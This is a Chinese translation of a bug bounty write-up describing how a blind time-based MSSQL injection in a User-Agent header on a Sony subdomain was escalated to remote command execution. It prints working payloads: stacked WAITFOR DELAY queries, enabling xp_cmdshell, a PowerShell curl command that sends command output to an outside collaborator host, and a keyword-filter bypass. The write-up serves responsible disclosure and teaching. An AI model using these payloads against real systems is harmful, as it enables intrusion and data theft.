 # 我如何将基于时间的 SQL 注入升级到 RCE

> 原文：<https://infosecwriteups.com/how-i-escalated-a-time-based-sql-injection-to-rce-bbf0d68cb398?source=collection_archive---------0----------------------->

大家好！我希望你们都过得很好。

今天，我将分享我的一份关于索尼[的报告，这是一个在](https://en.wikipedia.org/wiki/Sony) [HackerOne](https://hackerone.com/) 中的公共程序，以及我如何将其从盲目的基于时间的 SQL 注入升级到完整的远程操作系统命令执行的方法。

我将编辑重要的细节，如域，子域，命令输出，我的 IP 地址，服务器 IP 地址，等等。

# **侦查阶段:**

对于侦察阶段，我使用`sublist3r`来查找给定域的子域。

![](img/578346cdfebe8a75e4cbd949c3d9817c.png)

我检查了所有的子域，但都是死链接。失望之余，我尝试了其他侦察工具，比如`amass`。令人惊讶的是，它给了我更好的结果

`amass`给了我在简单的谷歌查询中看不到的子域名。(这个我就不截图了，抱歉)。它给了我一个这样的子域:

`special.target.com`

# 熟悉目标

现在我访问了网站，它看起来像一个管理面板或员工登录页面

![](img/b9527b135e5c6a39c93640a47c9e2215.png)

我尝试了经典的`'`符号来检查 sql 错误。我进入了`username=123'&password=123'`

我检查了 burpsuite 请求，端点返回了一个有意义的 500 错误页面。为什么硕果累累？开发人员忘记关闭他们的调试模式或什么的，这允许我查看完整的查询，以及文件的完整路径。

![](img/ae5541e38d42245320747bf0f9e12bd9.png)

该端点易受 Microsoft SQL 注入的攻击。

# 实际剥削

我尝试对 username 参数进行简单的布尔 SQL 注入，但是没有成功。任何有效负载都显示错误。我再次查看查询错误，发现我的`User-Agent`头被传递给了数据库。我给我的用户代理添加了单引号和注释`‘--`，它返回了通常的正确页面。

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***'--***`

![](img/3249b78b7aa6a7d425dd501161013c2b.png)

这很好地表明服务器执行用户提供的输入。接下来，我检查了基于时间的 SQL 注入，看是否可以堆叠查询

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***';WAITFOR DELAY ‘00:00:05’;--***`

那么响应会延迟大约 5 秒

![](img/3124cd989cb39d5067bcfdf12deb8caa.png)

这证实了我们可以堆叠 SQL 查询并注入任何我们想要的命令。

# 将 SQL 注入升级到 RCE

既然我们知道我们可以堆栈查询，让我们在这里找到一种执行 OS 命令的方法。与 MySQL 不同，MSSQL 提供了一种执行命令的方式。我基于[Prashant Kumar](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)[的这篇](https://medium.com/u/8a66e9bc8058?source=post_page-----bbf0d68cb398--------------------------------)文章

我刚刚发现我们可以使用`xp_cmdshell`执行操作系统命令，所以我在他们的服务器上启用了 xp_cmdshell

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***'; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE;--***`

然后我用`ping`测试了一个盲人 RCE

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***'; EXEC xp_cmdshell 'ping myburpcollablink.burpcollaborator.net';--***`

![](img/cc1cabc9b3e0183c12096b033a41ce3a.png)

嘣！我们找到了那个伪君子合作者的客户。这证实了我们可以做 RCE。

不像上面的[将命令输出存储在数据库中，我采用了一种非破坏性的方式来读取 OS 命令输出。](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)

我通过将输出分配给`powershell`中的`variable`并使用`curl`将它们发送到我的 BurpCollaborator 来实现这个

工作原理是这样的:
`powershell -c “$x = whoami; curl [http://my-burp-link.burpcollaborator.net/get?output=$x](http://ryt2vq7j7b3jlk4zeilrk5hm7dd51u.burpcollaborator.net/get?output=$x)”`

上面的命令获得了`whoami`的输出，并将它们发送到我的 burpcollab 链接

**最终的 RCE 有效载荷看起来是这样的:**

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***';EXEC xp_cmdshell ‘powershell -c “$x = whoami; curl*** [***http://my-burp-link.burpcollaborator.net/get?output=$x***](http://gn76thrltjpf9j5jccvusaxpggm7aw.burpcollaborator.net/get?output=$x)***"';--***`

命令输出如预期的那样返回给了我

![](img/c4b812f202a96125576afbd17ee57951.png)

我还可以检索他们的`AWS EC2 instances’ metadata information`，查看服务器文件，等等。

# 绕过“修复”

几天后，索尼告诉我他们部署了一个补丁。我尝试了我的旧有效载荷，它被防火墙阻止了。我看到他们的过滤器中包含了关键字`EXEC xp_cmdshell`。

我通过声明一个值为`xp_cmdshell`的变量`@x`并做类似于`EXEC @x`的事情来绕过过滤器

`‘; DECLARE [@x](http://twitter.com/x) AS VARCHAR(100)=’xp_cmdshell’; EXEC [@x](http://twitter.com/x) ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —`

**时间线:**

*   **2021 年 9 月 14 日** - >首次报道
*   **2021 年 9 月 16 日** - >被哈克松审判
*   **2021 年 9 月 21 日** - >初始补丁部署(绕过)
*   **2021 年 9 月 23 日** - >部署了另一个补丁(再次绕过)
*   **2021 年 9 月 26 日** - >最终补丁部署完毕
*   **2021 年 9 月 27 日** - >标记为已解决，并已获得奖金

![](img/f0d62b5ee2d087278cebc7353453a73c.png)

非常感谢索尼让我们测试你的资产。谢谢你的礼物